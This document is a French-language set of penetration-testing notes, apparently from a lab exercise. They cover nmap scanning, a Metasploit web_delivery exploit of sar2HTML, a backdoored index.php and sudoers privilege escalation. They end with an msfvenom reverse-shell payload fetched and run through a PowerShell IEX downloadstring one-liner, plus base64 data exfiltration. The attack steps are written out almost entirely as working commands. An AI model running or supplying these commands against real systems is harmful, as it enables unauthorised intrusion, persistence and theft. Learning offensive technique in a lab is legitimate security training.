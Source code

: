 Summer with JM.md


## Etapes de pentest:

1. Reconnaissance
2. Analyse de vulns
3. Exploit de vulns - initial accès
4. Post Exploit - Persistance d’accès - Mouvement latéraux - data exfiltration
6. Rapport


    nmap 10.0.0.0/24 -sn (1ere étape +discret donne les machines up)

    nmap 10.0.0.0/24 -p 22,21,23,135,80,443,3389,3306,445 -oX /tmp/a.xml -Pn --open (2eme étape vision sur les services)

    nmap 10.0.0.0/24 -p 80,443,8080,8443,3389,445 -sV --open -sC -T4 -A -oX /tmp/a.xml   (fingerprinting)

Dans metasploit:  db_import /tmp/a.xml
(services, hosts, vulns)



2. recherche de vulns

découverte http://nananana/robots.txt
on trouve http://10.0.0.103/sar2HTML/ > recherche google sar2HTMLvXXX

Exploitdb


- msf5 > use exploit/multi/script/web_delivery
- set lport 4444
- set lhost 192.168.0.18
- set uripath /rgpd/
- set target 1
- set payload php/meterpreter/reverse_tcp
- exploit

copier l'exploit dans la barre d'adresse du navigateur 
## Backdoor:
sessions 1 > meterpreter

ls
lcd /tmp
download index.php
modif de index
upload /tmp/index.php

curl http://192.168.0.13/sar2HTML/index.php?tata=id | head -n 1



changer le meterpreter en bash : python3 -c 'import pty;pty.spawn("/bin/bash")'



## élévation de droit:
- fichier /var/www/html/write.sh > download >  echo "www-data ALL= (root) NOPASSWD: /usr/bin/sudo " >>/etc/sudoers > upload
- shell > /etc/crontab > attendre 5 min
- sudo -u root sudo su

## exfiltration:

cat /tmp/a.txt |base64 > genere le base 64 du fichier > on c/c le b64
- recup windows_adrienne.rdp

# rdp Windows par payload

- forger malicious
msfvenom -p windows/x64/meterpreter/reverse_tcp LPORT=8080 LHOST=10.0.0.2 -f psh-net -o malicious.ps1
- demarrer le serveur SimpleHTTPS au même endroit
python -m SimpleHTTPServer 80

## dans metasploit:
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp (> options :lhost, lport)

## powershell:
$e=new-object net.webclient;
IEX $e.downloadstring('http://xxx.xxx.xxx.xxx/malicious.ps1')

## Metasploit:
- passe le meterpreter en backgroung
meterpreter >background
msf5 exploit(multi/handler) > search suggest
use 3
options
set session 1
run


